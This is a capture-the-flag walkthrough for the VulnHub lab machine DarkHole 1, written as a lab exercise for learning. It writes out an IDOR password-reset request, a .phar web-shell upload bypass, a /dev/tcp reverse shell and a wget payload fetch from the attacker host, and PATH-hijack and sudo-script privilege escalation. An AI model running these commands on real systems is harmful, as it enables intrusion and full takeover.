




# Darkhole 1 — VulnHub

## 1. Identification

| Field            | Value                                            |
|------------------|--------------------------------------------------|
| Machine name     | DarkHole: 1                                      |
| Platform         | VulnHub                                          |
| Difficulty       | Easy/Medium                                      |
| Target IP (lab)  | 10.0.0.33                                        |
| Internal hostname | darkhole                                        |
| Goal             | Capture user and root flags                      |
| Flags obtained   | `user.txt` (in `/home/john`), `root.txt` (in `/root`) |

Full chain in one line: recon → IDOR in `dashboard.php` → admin password reset → upload bypass (`.phar` / `.pHp`) → reverse shell → `/home/john/toto` SUID + PATH hijack → `sudo NOPASSWD python3 /home/john/file.py` → root.

## 2. Initial reconnaissance

Verify that the server is responsive and run initial port/service enumeration (Apache web server on port 80).

```bash
curl -kI http://10.0.0.33/
curl -kV "http://10.0.0.33/config/database.php"
```

Figure 1 — Home page at `http://10.0.0.33/`: "The Spark Dimond" image with a link to login.



Figure 2 — Authentication form at `/login.php` (signed "Made by Red Virus").

## 3. Enumeration

### 3.1 Web enumeration with feroxbuster

```bash
feroxbuster -u http://10.0.0.33/ \
  -w /usr/share/seclists/Discovery/Web-Content/big.txt \
  -x php,html,txt,conf -r
```

Relevant findings:

```
200   GET   /login.php
200   GET   /register.php
200   GET   /dashboard.php
301   GET   /config/        → /config/database.php (empty over HTTP, read PHP-side only)
301   GET   /upload/
200   GET   /upload/d.jpg
302   GET   /logout.php → /login.php
```

### 3.2 Initial account on the web application

Registration via `/register.php` with user `pedro`. After login, the user is redirected to `dashboard.php?id=4` (id 4 = pedro).

## 4. Exploitation

### 4.1 IDOR in dashboard.php → admin password reset

The page's code was doing:

```php
if (isset($_POST['password'])) {
    $pass = mysqli_real_escape_string($connect, $_POST['password']);
    $idGet = mysqli_real_escape_string($connect, $_POST['id']);   // <-- comes from the client!
    $connect->query("update users set password='$pass' where id='$idGet'");
}
```

The `id` used in the UPDATE comes from POST instead of the session → IDOR. Any user's password can be changed. Request sent via Burp:

```http
POST /dashboard.php?id=4 HTTP/1.1
Host: 10.0.0.33
Cookie: PHPSESSID=<pedro's session>
Content-Type: application/x-www-form-urlencoded

password=hacked&id=1
```

Figure 3 — Burp Suite: POST to `dashboard.php?id=4` sending `password=hacked&id=1`; response shows "Password Has been Updated".



Figure 4 — Access to `dashboard.php?id=4` (regular user) — without the upload form.



Figure 6 — Login as admin / hacked (id=1): the upload form, only visible to admin, appears.



### 4.2 Upload bypass → RCE

The filter is a weak blacklist that only blocks `.php` and `.html`:

```php
$exit = pathinfo($fileName, PATHINFO_EXTENSION);
if ($exit != "php" && $exit != "html") {
    move_uploaded_file(...);
}
```

Apache executes many other extensions as PHP. Uploaded with alternative extensions:

```
simple-backdoor.phar
simple-backdoor_1.pHp     (case bypass)
t.phar
t.php3
t.php5
```

Verification:

```bash
curl "http://10.0.0.33/upload/t.phar?cmd=id"
# uid=33(www-data) gid=33(www-data)
```

### 4.3 Reverse shell

```bash
# Kali
nc -lvnp 4444

# Triggered via the web shell
curl "http://10.0.0.33/upload/t.phar?cmd=bash%20-c%20'bash%20-i%20%3E%26%20/dev/tcp/10.0.1.8/4444%200%3E%261'"
```

Result: `www-data@darkhole:/var/www/html/upload$`.

## 5. Post-exploitation

Local enumeration with linpeas:

```bash
# Kali
cd /tmp && python3 -m http.server 8000

# Target
cd /tmp
wget http://10.0.1.8:8000/linpeas.sh
chmod +x linpeas.sh && ./linpeas.sh
```

Key findings:

- Kernel `5.4.0-77-generic` — several candidate CVEs, but kernel exploits did not work on this box (Ruby/glibc missing, kernel already patched).
- `/home/john/.ssh/` is group-writable by `www-data`, but sshd has `StrictModes yes` → `authorized_keys` injection fails.
- `/home/john/toto` — SUID root, executable by everyone.
- `/var/www/darkhole.sql` readable; DB credentials: `john:john` (does not match SSH).
- `users` table: `admin/admin`, `pedro/<empty>`, etc.

## 6. Privilege escalation

### 6.1 www-data → john via SUID toto + PATH hijack

```bash
ls -la /home/john/toto
# -rwsr-xr-x 1 root root 16784 toto

file /home/john/toto
# setuid ELF 64-bit ... dynamically linked, not stripped

strings /home/john/toto | grep -E "setuid|system|id"
# setuid, setgid, system

/home/john/toto
# uid=1001(john) gid=33(www-data) groups=33(www-data)
```

The binary calls `setuid(1001)` and then `system("id")`. Because it uses the relative name `id` instead of `/usr/bin/id`, it is vulnerable to PATH hijacking.

Exploit:

```bash
# 1) Malicious id in /tmp
cd /tmp
cat > id <<'EOF'
#!/bin/bash
/bin/bash -p
EOF
chmod +x id

# 2) /tmp at the front of PATH
export PATH=/tmp:$PATH
which id     # /tmp/id

# 3) Trigger toto
/home/john/toto
# whoami → john
```

The chain:

1. `toto` starts with EUID=root (SUID bit).
2. Calls `setuid(1001)` → EUID/RUID = john.
3. Calls `system("id")` → `/bin/sh -c "id"`.
4. The shell finds `/tmp/id` first → executes `bash -p`.
5. `-p` prevents bash from dropping privileges → shell as john.

### 6.2 john → root via sudo NOPASSWD on a writable Python script

```bash
john@darkhole:~$ sudo -l
# password: root123   (the one in /home/john/password — it's john's, not root's)

Matching Defaults entries for john on darkhole:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

User john may run the following commands on darkhole:
    (root) /usr/bin/python3 /home/john/file.py
```

Because `/home/john` is world-writable (mode 777) and `file.py` is writable, it's enough to overwrite the content:

```bash
echo 'import os; os.system("/bin/bash")' > /home/john/file.py
sudo /usr/bin/python3 /home/john/file.py
# password: root123
```

> Watch out for typos — sudoers matches the path exactly. Example: `sudo /usr/bin/python3 /home/jhon/file.py` (typo `jhon`) returns "user john is not allowed to execute".

Attempts that failed (documented):

- `sudo su` → "user john is not allowed to execute '/usr/bin/su' as root".
- `su -` with `root123` → "Authentication failure".
- `python3 /home/john/file.py` (without sudo) → only opens bash as john.

## 7. Flags

```bash
john@darkhole:~$ cat /home/john/user.txt
DarkHole{You_Can_DO_It}

root@darkhole:/home/john# whoami
root

root@darkhole:/home/john# id
uid=0(root) gid=0(root) groups=0(root)

root@darkhole:/home/john# cat /root/root.txt
DarkHole{You_Are_Legend}
```

| Flag     | Path                  | Value                       |
|----------|-----------------------|-----------------------------|
| user.txt | `/home/john/user.txt` | `DarkHole{You_Can_DO_It}`   |
| root.txt | `/root/root.txt`      | `DarkHole{You_Are_Legend}`  |

## 8. Attack summary

1. Target discovery (10.0.0.33) and port enumeration (Apache:80).
2. Web enumeration with feroxbuster → identification of `/login`, `/register`, `/dashboard`, `/upload`.
3. Register user `pedro` (id=4) at `/register.php`.
4. IDOR in `dashboard.php` → reset admin password (id=1) via POST with `id=1`.
5. Login as admin → exclusive upload form appears.
6. Upload bypass with `.phar` / `.pHp` → web shell in `/upload/`.
7. Reverse shell → `www-data`.
8. Local enumeration with linpeas → SUID `/home/john/toto`.
9. PATH hijack over `system("id")` → shell as john.
10. `sudo -l` → john can run `/usr/bin/python3 /home/john/file.py` as root.
11. Overwrite `file.py` with `os.system("/bin/bash")` → root.
12. Read `/root/root.txt`.

## 9. Technical lessons

- IDOR in an UPDATE parameter — never accept the user-supplied `id` to write into other users' records.
- Extension blacklists are unsafe: Apache executes `.phar`, `.php3`, `.pHp`, `.php5` as PHP.
- SUID + relative command (`system("id")`) → trivial PATH hijack.
- `sudo NOPASSWD` on a writable script is equivalent to `NOPASSWD` on `/bin/bash`.
- A 777 user directory breaks sshd's `StrictModes` (no `authorized_keys` injection possible) but still allows overwriting privileged scripts.
- Documenting failed attempts (kernel exploits, SSH keys) saves time in future iterations.
